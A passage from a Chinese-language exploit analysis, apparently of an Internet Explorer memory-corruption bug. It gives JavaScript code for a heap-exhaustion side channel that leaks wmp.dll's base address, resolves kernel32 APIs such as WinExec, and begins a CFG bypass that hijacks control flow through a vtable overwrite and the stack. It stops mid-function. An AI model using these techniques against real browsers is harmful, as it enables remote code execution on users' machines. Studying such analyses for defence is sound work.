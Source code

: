 ```

oDiv.getElementsByClassName(stringSmall);

try `{`

oDiv.getElementsByClassName(stringOfSizeA);

`}`catch (e) `{`

logMsg(0x105, "Unable to fill hole A. Test result positive.");

testResult = 1;

return;

`}`

testResult = 0;

`}`;
```

函数利用Javascript引擎内存分配失败的异常实现侧信道攻击。前期准备时，进程内存空间几乎被堆空间填充满；前述的2-g步骤中尝试分配堆块，根据是否产生异常，可获知堆块分配成功还是失败；多次调用testOneAddress函数以迭代X值，通过侧信道攻击，将布尔型信息泄漏转换成整数型信息泄漏，也即获得wmp.dll的加载地址。

为了实现加载wmp.dll，有如下代码：

```
window.module1 = new ActiveXObject("WMPlayer.OCX.7");
```

获得wmp.dll加载的基地址之后，利用读写原语可以对wmp.dll进行读操作可获得大量信息。由于wmp.dll的导入表中一定包含kernel32.dll导出函数，本步骤可获得kernel32.dll模块中关键API如RtlCaptureContext、WinExec的加载地址。

### <a name="_Toc484251680"></a><a name="_Toc484099969"></a><a name="_Toc483230474"></a><a name="_Toc483230152"></a>3.3 步骤三：劫持程序流程

为了劫持程序执行流程，本步骤使用了两种覆写方式以完全绕过CFG技术的保护。第一次利用CFG保护的粗粒度的性质，覆写对象虚表指针，然后调用CFG判定为合法的函数RtlCaptureContext获得线程函数栈空间所在的位置；第二次利用CFG不保护栈空间的性质，在线程栈空间查找函数栈帧，覆写其中的返回地址以达到流程的完全劫持。

3.3.1 查找线程栈空间位置

调用Windows API RtlCaptureContext的代码如下：

```
function apiCallRtlCaptureContext(apiRtlCaptureContext, arr1,arr2,arr2backup)`{`

for(var i=0;i&lt;99;i++)`{`

var temp = rDword(arr2backup[0] + i*4);

arr2backupRestore(arr1, arr2backup);

arr2[i] = temp;

`}`

arr2[0x7c/4] = apiRtlCaptureContext;

arr1[0] = arr2backup[8];

var temp = arr2backup[8]+0x800;

temp in arr2;

arr2backupRestore(arr1, arr2backup);
```